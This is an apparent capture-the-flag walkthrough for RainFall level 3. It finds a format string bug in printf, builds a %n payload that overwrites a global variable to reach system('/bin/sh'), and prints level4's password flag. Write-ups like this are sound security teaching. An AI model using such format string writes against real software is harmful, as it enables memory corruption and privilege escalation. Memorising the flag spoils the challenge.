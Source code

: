 # RainFall Level 3 Walkthrough

## Objective

The goal of Level 3 is to exploit the `level3` binary using a **format string vulnerability** in order to modify a variable in memory and gain access to `level4`.

---

## Step 1: Examine the Environment

After switching to `level3`:

```bash
level7@RainFall:~$ su level3
Password:
level3@RainFall:~$ ls
level3
```

Check the binary protections:

```bash
level3@RainFall:~$ checksec level3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

> Important notes:
>
> * **No stack canary** → stack overflows possible.
> * **NX disabled** → executable stack.
> * **No PIE** → static addresses.

---

## Step 2: First Run

Running the program with format specifiers:

```bash
./level3
%p %p %p
0x200 0xb7fd1ac0 0xb7ff37d0
```

Trying with more data:

```bash
./level3 "aaaa %p %p %p %p %p"
aaaa 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x20702520
```

> The input is passed directly into `printf`, confirming a **format string vulnerability**.

---

## Step 3: Disassemble the Program

Open the binary in GDB:

```bash
gdb ./level3
```

Check functions:

```gdb
info functions
```

Notable functions:

```
0x08048390  printf@plt
0x080483a0  fgets@plt
0x080483c0  system@plt
0x080484a4  v
0x0804851a  main
```

Disassemble `main`:

```gdb
disas main
```

```asm
0x0804851a <+0>:  call   0x80484a4 <v>
```

So execution flows directly to `v`.

Disassemble `v`:

```gdb
disas v
```

Key observations:

* Input is read with `fgets`.
* Then printed with `printf` (vulnerable).
* The global variable `m` (`0x0804988c`) is compared to `0x40`.
* If `m == 0x40`, the program calls `system("/bin/sh")`.

---

## Step 4: Identify the Target

Check global variables:

```gdb
info var
```

Output:

```
0x0804988c  m
```

So we need to set `m = 0x40`.

---

## Step 5: Exploitation Strategy

We can use a format string payload with `%n` to write to `m`.

Address of `m`: `0x0804988c`.

Construct payload:

```bash
python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' > /tmp/ex
```

Run it:

```bash
./level3 < /tmp/ex
```

Output:

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
```

> The message *“Wait what?!”* confirms that `m` was successfully modified.

---

## Step 6: Get a Shell

Run interactively:

```bash
cat /tmp/ex - | ./level3
```

Now check identity:

```bash
whoami
level4
```

Retrieve the password:

```bash
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

---

## Step 7: Summary

* **Vulnerability:** Format string bug in `printf`.
* **Target:** Global variable `m` at `0x0804988c`.
* **Exploit:** Use `%n` to set `m = 0x40`.
* **Payload Example:**

  ```bash
  python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' > /tmp/ex
  ./level3 < /tmp/ex
  ```
* **Outcome:** Escalation to `level4` and retrieval of its password.

---

**End of Level 3 Walkthrough**

